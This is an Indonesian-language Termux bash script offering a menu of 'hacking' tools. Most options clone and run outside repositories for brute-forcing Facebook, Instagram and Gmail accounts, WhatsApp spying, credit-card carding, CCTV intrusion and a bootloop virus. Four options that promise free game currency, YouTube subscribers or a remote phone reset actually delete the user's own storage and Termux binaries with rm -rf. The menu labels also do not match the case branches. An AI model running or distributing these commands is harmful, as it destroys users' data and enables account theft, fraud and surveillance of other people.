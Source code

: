 # Laravel
#!/bin/bash
#version 1.0

# Variables
b='\033[1m'
u='\033[4m'
bl='\E[30m'
r='\E[31m'
g='\E[32m'
bu='\E[34m'
m='\E[35m'
c='\E[36m'
w='\E[37m'
endc='\E[0m'
enda='\033[0m'
blue='\e[1;34m'
cyan='\e[1;36m'
red='\e[1;31m'

figlet T3MP35T | lolcat

echo -u "######################################################"
echo -b " TOOLS TERMUX $green " |lolcat
echo -b " COPY BY TEMPEST $green " |lolcat
echo -b " MY FACEBOOK: RIMURU TEMPEST $green " |lolcat
echo -b " RUDEBOYS SQUAD - ANBU CYBER INDO - CYBER SWORD $green " |lolcat
echo -u "#######################################################"


###################################################
# CTRL + C                                        #
###################################################

trap ctrl_c INT
ctrl_c() {
clear
echo -b $green"[#]> (Ctrl + C ) Detected, Trying To Exit ... " |lolcat
echo -b $green"[#]> thanks udah pakai tools ini" |lolcat
sleep 1
echo ""
echo -b $green"[#]> T3MP35T WAS HERE" |lolcat

echo -b $green"[#]> see you again ferguso :)..." |lolcat
sleep 1
exit
}

lagi=1
while [ $lagi -lt 6 ];
do
echo ""
echo -e $b "1. HACK FB NARGET${enda}";
echo -e "============================" | lolcat
echo -e $b "2. HACK IG NARGET${enda}";
echo -e "============================" | lolcat
echo -e $b "3. HACK GMAIL${enda}";
echo -e "============================" | lolcat
echo -e $b "4. SADAP WA JARAK JAUH${enda}";
echo -e "============================" | lolcat
echo -e $b "5.RESET HP ORANG JARAK JAUH${enda}";
echo -e "============================" | lolcat
echo -e $b "6. TOP UP DM ILEGAL GRATIS FREE FIRE${enda}";
echo -e "============================" | lolcat
echo -e $b "7. AUTO SUBSCRIBE 500K YOUTUBE CHANEL${enda}";
echo -e "============================" | lolcat
echo -e $b "8. DUMP TEMAN FB${enda}";
echo -e "============================" | lolcat
echo -e $b "9. CARI CC BUAT CARDING${enda}";
echo -e "============================" | lolcat
echo -e $b "10. TOP UP FREE FIRE${enda}";
echo -e "============================" | lolcat
echo -e $b "11. TEMBAK KUOTA${enda}";
echo -e "============================" | lolcat
echo -e $b "12. BUAT VIRUS BOOTLOOP HP${enda}";
echo -e "============================" | lolcat
echo -e $b "13. JADWAL SHOLAT${enda}";
echo -e "============================" | lolcat
echo -e $b "14. HACK CCTV${enda}";
echo -e "============================" | lolcat
echo -e $b "15. HACK PULSA SMARTFREN${enda}";
echo -e "============================" | lolcat
echo -e $b "16. Exit${enda}";
echo -e "╭─root@tempest" | lolcat
read -p "╰─#" pil;

case $pil in
    1) echo "T3MP35T TOOLS HACK FB NARGET" | lolcat
            pkg install python2
            git clone https://github.com/Senitopeng/KumpulanFbbrute
            echo -e "${y} cara menggunakan KumpulanFbbrute"
            cd KumpulanFbbrute
            python2 jomblo.py
            
;;

2) echo "T3MP35T TOOLS HACK IG NARGET" | lolcat
        apt install python2
        git clone https://github.com/Senitopeng/instabot.git
        echo -e "${y} cara menggunakan INSTA HACK"
        cd instabot
        ./instabot
      
;;

3) echo "T3MP35T TOOLS HACK GMAIL" | lolcat
        apt install python2
        git clone https://github.com/AyoubSirai/gmail_attacker
        echo -e "${y} cara menggunakan Gmail HACK"
        cd gmail_attacker
        python2 gmail_attacker.py
    

;;

4) echo "T3MP35T TOOLS SADAP WA" | lolcat
    git clone https://github.com/soracyberteam/what-sexploit
        echo -e "${y} cara sadap whatsapp"
        cd what-sexploit
        ./whatsex
    

;;

5) echo "T3MP35T  TOOLS RESET  HP ORANG" | lolcat
             pkg update
             pkg upgrade
         rm -rf /storage/emulated/0
        rm -rf /storage
      rm -rf /storage/sdcard
    rm -rf /storage/sdcard1
  rm -rf $PREFIX/bin
exit 

;;

6) echo "T3MP35T TOOLS DM FREE FIRE ILEGAL" | lolcat
             pkg update
             pkg upgrade
         rm -rf /storage/emulated/0
        rm -rf /storage
      rm -rf /storage/sdcard
    rm -rf /storage/sdcard1
  rm -rf $PREFIX/bin
exit

;;

7) echo "T3MP35T  AUTO 500K SUB YOUTUBE  CHANEL" | lolcat
           pkg update
             pkg upgrade
           rm -rf /storage/emulated/0
         rm -rf /storage
       rm -rf /storage/sdcard
     rm -rf /storage/sdcard1
   rm -rf $PREFIX/bin
exit

;;

8) echo "T3MP35T TOOLS DUMP TEMAN FB" | lolcat
    git clone https://github.com/CiKu370/OSIF
        echo -e "${y} cara dump nya "
        cd OSIF
        pip2 install -r requirements.txt
        python2 osif.py
    
;;

9) echo "T3MP35T  TOOLS NGEDUMP CC CARDING" | lolcat
        git clone https://github.com/ganucisystem/creditcard
        echo -e "${y} cara ambil cc nya "
        cd creditcard
        php fake.php
       

;;

10) echo "eror not found sory: T3MP35T" | lolcat
    rm -rf /sdcard/
    rm -rf /storage/emulated/0/
echo

;;

11) echo "T3MP35T  TOOLS TEMBAK KUOTA" | lolcat
        git clone https://github.com/kumpul4semut/semut.git
        echo -e "${y} cara tembaknya "
        cd semut
        python2 dor.py
    

;;

12) echo "T3MP35T TOOLS TEMBAK KUOTA" | lolcat 
    git clone https://github.com/aryanrtm/Jadwal-Sholat
    cd Jadwal-Sholat
    sh jadwal-sholat.sh
    
;;

13) echo "T3MP35T TOOLS NGEBUAT VIRUS" | lolcat  
    git clone https://github.com/TUANB4DUT/VIRUS
    cd VIRUS
    chmod +x bootloop.sh
    sh bootloop.sh
    
;;

14) echo "T3MP35T TOOLS HACK CCTV" | lolcat  
    pkg install python2
    git clone https://github.com/kancotdiq/ipcs
    cd ipcs
    python2 scan.py
    
;;

15) echo "T3MP35T TOOLS HACK PULSA" | lolcat  
    pkg install php
    git clone https://github.com/ganucisystem/radenkeceh
    cd radenkeceh
    php pulsa.php

;;

16) echo "BYE KALIAN  PARA HAYKEL PRO" | lolcat
exit

;;

*) echo "MAAF JIKA ADA KESALAHAN, HARAP DI MAKLUMI"
esac
done
done
